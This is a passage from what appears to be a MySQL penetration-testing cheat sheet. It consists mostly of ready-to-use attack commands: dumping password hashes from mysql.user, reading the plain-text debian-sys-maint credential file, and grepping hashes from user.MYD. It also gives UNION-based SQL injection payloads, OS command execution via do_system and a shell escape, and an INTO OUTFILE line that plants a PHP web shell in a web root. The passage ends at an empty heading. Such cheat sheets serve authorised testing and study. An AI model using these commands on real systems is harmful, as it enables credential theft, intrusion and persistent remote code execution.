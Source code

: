 ```sql
SELECT User,Host,Password FROM mysql.user;
SELECT User,Host,authentication_string FROM mysql.user;
```

```bash
mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"
```

### Extracting MySQL credentials from files

Inside `/etc/mysql/debian.cnf` you can find the plain-text password of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

Inside the file: `/var/lib/mysql/mysql/user.MYD` you can find all the hashes of the MySQL users (the ones that you can extract from `mysql.user` inside the database).
You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

---

# Misc

## Basic & interesting MySQL commands

```sql
# Database and tables commands
show databases;
create database <name>;
use <database>;
show tables;
describe <table_name>;

# User commands
select grantee, table_schema, privilege_type FROM schema_privileges; # Exact privileges
select user,file_priv from mysql.user where user='root'; # File privileges
GRANT ALL PRIVILEGES ON database_name.* TO 'username'@'localhost';
FLUSH PRIVILEGES;

# Inspect various values
select version(); # version
select @@version(); # version
select user(); # User
select database(); # database name
show variables like 'plugin_dir';

# Try to execute code
select do_system('id');
\! sh

# Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

# Read & Write
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

# Try to change MySQL root password
```
